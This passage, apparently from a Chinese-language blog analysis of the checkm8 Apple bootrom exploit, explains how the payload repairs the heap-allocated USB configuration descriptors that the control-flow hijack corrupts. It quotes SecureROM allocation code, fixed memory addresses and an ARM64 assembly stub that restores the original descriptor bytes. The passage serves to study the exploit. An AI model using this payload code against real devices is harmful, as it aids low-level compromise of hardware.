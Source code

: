 1. 恢复USB配置描述符

SecureROM初始化阶段为2个USB配置描述符在堆上分配空间，地址分别保存在usb_core_hs_configuration_descriptor和usb_core_fs_configuration_descriptor两个全局变量中。

```c
static u_int8_t *usb_core_hs_configuration_descriptor;
static u_int8_t *usb_core_fs_configuration_descriptor;

int usb_core_start(){
		......
    usb_core_hs_configuration_descriptor = (u_int8_t *)malloc(total_len);
    usb_core_fs_configuration_descriptor = (u_int8_t *)malloc(total_len);
    ......
}
```

两个全局变量在内存中的位置相邻，位于0x180088A30和0x180088A38。

![截屏2025-03-11 19.42.26.png](/assets/posts/2025-05-25-深入分析苹果设备-checkm8-漏洞/%E6%88%AA%E5%B1%8F2025-03-11_19.42.26.png)

在控制流劫持过程中，覆盖usb_device_io_request对象的同时，也破坏了堆上面的hs_configuration和fs_configuration对象。这两个对象的内容在编译时确定，因此可以把原有的内容手动复制回去。

```c
.text
.set gUSBDescriptors,              0x180088A30

LDR  X0, =gUSBDescriptors
LDP  X0, X1, [X0]   //X0 = usb_core_hs_configuration_descriptor, X1=usb_core_fs_configuration_descriptor
ADR  X2, USB_DESCRIPTOR
LDP  X3, X4, [X2]       //恢复usb_core_hs_configuration_descriptor和usb_core_fs_configuration_descriptor
STP  X3, X4, [X0]       //一共32字节
STP  X3, X4, [X1]
LDP  X3, X4, [X2,#0x10]
STP  X3, X4, [X0,#0x10]
STP  X3, X4, [X1,#0x10]

USB_DESCRIPTOR:
.word 0x190209, 0x80050101, 0x409fa, 0x1fe0000, 0x21070000, 0xa01, 0x8, 0x0
```

